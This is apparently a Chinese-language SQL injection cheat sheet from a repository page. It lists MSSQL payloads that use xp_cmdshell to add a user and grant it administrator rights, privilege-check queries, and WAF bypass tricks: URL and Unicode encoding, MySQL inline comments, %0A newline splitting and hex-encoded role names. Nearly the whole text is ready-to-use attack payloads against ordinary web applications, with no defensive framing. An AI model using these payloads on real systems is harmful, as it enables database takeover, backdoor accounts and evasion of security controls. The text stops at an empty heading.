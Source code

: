 ### MSSQL 命令执行

* 是否存在 xp _cmdshell
    - `and 1=(select count(*) from master.dbo.sysobjects where xtype ='x' and name = 'xp_cmdshell')`
* 用 xp_cmdshell 执行命令
    - `;exec master..xp_cmdshell "net user name password /add"--`
    - `;exec master..xp_cmdshell "net localgroup name administrators /add"--`
* 查看权限
    - `and (select IS_SRVROLEMEMBER('sysadmin'))=1--`  //sa
    - `and (select IS_MEMBER('db_owner'))=1--`  //dbo
    - `and (select IS MEMBER('public'))=1--`  //public
# 05 通用型 WAF 绕过思路

### 编码绕过

#### URL编码

* `?id=1 union select pass from admin limit 1`
* `?id=1%20%75%6e%69%6f%6e%20%73%65%6c%65%63%74%20%70%61%73%73%20%66%72%6f%6d%20%61%64%6d%69%6e%20%6c%69%6d%69%74%20%31`

#### Unicode编码

* `'e' => '%u0065'`   // 这是他的Unicode编码
* `?id=1 union select pass from admin limit 1`
* `?id=1 un%u0069on sel%u0065ct pass f%u0072om admin li%u006dit 1`

#### 数据库一些绕过bypass

* mysql 内联注释: `select -> /*!select*/`  // 这样写法
* `select?user,password?from?user?xxx?union?select(1),(2)`  // MySQL中空格也可以用`+`或`/**/`号代替

(切记Mysql `select->sele/**/ct` 不能这样写法, 很多文章说能这样写是错误的。 MSSQL松散性问题可以这样写，下面有介绍)

#### GET参数SQL注入%0A换行污染绕过

绕过描述：

在GET请求时，将URL的SQL注入关键字用%0A分隔，%0A是换行符，在mysql中可以正常执行

测试方法：

* `http://www.webshell.com/1.php?id=1 union select 1,2,3,4`    // 被拦截
* `http://www.webshell.com/1.php?id=-9%0Aunion%0Aselect 1,2,3,4`   // 绕过

#### MSSQL

用HEX绕过，一般的DS都无法检测出来

* 0x730079007300610064006D0069006E00=hex(sysadmin)
* 0x640062005F006F0077006E0065007200 =hex(db_owner)

#### 运用注释语句绕过
